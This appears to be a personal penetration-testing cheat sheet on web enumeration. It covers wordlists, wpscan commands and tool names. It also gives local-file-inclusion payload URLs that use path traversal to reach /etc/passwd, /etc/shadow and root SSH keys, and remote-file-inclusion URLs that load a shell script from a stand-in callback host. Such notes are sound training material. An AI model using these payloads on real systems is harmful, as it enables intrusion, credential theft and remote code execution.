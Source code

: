 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#enumeration #web-enumeration
# Step 1: ALWAYS LOOK AT THE SOURCE CODE OF THE WEBPAGE!

## Step 2: 

## Common Wordlists to use for Web App Scanning: 

Common Wordlists to use for Web Directory Scanning: 
- /usr/share/wordlists/dirb/common.txt
- /usr/share/wordlists/dirbuster/*.txt
- /usr/share/wordlists/wfuzz/general/*.txt
- /usr/share/seclists/Discovery/Web-Content/
- Assetnote Wordlists: https://wordlists.assetnote.io/
- Jhaddix Content Discovery: https://gist.github.com/jhaddix/b80ea67d85c13206125806f0828f4d10

Common Wordlists to use for User Enumeration Scanning: 
- /usr/share/seclists/Usernames
- /usr/share/wordlists/dirbuster/apache-user-enum-2.0

## Web App Scanners


Wpscan(WordPress Scannner):

- wpscan --url https://megacorpone.com
- wpscan --url https://megacorpone.com --enumerate ap at (All Plugins, All Themes)
- wpscan --url https://megacorpone.com --enumerate u (Usernames)
- wpscan --url https://megacorpone.com --enumerate v



Other Tools: 
- Burp Suite
- OWASP Zap
- Cadaver
- SQLMap
- Joomscan
- Feroxbuster

## Testing for LFI: 

https://www.exploit-db.com/docs/english/40992-web-app-penetration-testing---local-file-inclusion-(lfi).pdf

Examples: 

http://example.com/index.php?page=etc/passwd
http://example.com/index.php?page=etc/passwd%00
http://example.com/index.php?page=../../etc/passwd
http://example.com/index.php?page=%252e%252e%252f
http://example.com/index.php?page=....//....//etc/passwd

Interesting Files:

Linux:

```
/etc/passwd
/etc/shadow
/etc/issue
/etc/group
/etc/hostname
/etc/ssh/ssh_config
/etc/ssh/sshd_config
/root/.ssh/id_rsa
/root/.ssh/authorized_keys
/home/user/.ssh/authorized_keys
/home/user/.ssh/id_rsa
```

Windows:
```
/boot.ini
/autoexec.bat
/windows/system32/drivers/etc/hosts
/windows/repair/SAM
```


## Testing for RFI: 

http://example.com/index.php?page=http://callback.com/shell.txt
http://example.com/index.php?page=http://callback.com/shell.txt%00
http://example.com/index.php?page=http:%252f%252fcallback.com%252fshell.txt

## Resources

- Turning LFI to RFI: 
https://l.avala.mp/?p=241
Backup: https://web.archive.org/web/20210612222732/https://l.avala.mp/?p=241


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
